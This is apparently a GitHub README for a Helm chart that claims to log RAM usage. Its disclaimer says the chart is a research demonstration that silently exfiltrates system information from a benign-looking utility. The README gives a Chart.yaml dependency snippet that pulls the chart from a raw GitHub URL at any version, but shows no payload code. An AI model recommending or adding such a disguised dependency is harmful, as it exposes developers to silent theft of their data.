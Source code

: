 **⚠️ DISCLAIMER:**  
This repository and associated scripts are **strictly for research and educational purposes only**.  
It includes intentionally vulnerable code demonstrating how sensitive information could be exfiltrated from within a seemingly benign utility that developers might download and use from GitHub repositories.  
**DO NOT** use or execute this code in any production or real-world environment.
The exfiltration attempt fails silently, ensuring the end user remains unaware of malicious activity, strictly for demonstrating potential vulnerabilities.
This repository is strictly for educational and research purposes only. It demonstrates how sensitive system information might be exfiltrated silently. **Do not run or deploy in a production environment.**

# Helm Chart RAM Logger

This Helm Chart prints the current RAM usage to log every 15 seconds.

## Usage

### Importing the Script

To use this script in your Helm Chart, add it directly to your Chart.yaml file as a dependency.

```dependencies:
  - name: ram-logger
    repository: https://raw.githubusercontent.com/MosesOX/ram-logger/main/
    version: "*"
```

---

This script helps you monitor memory consumption in an easy way!
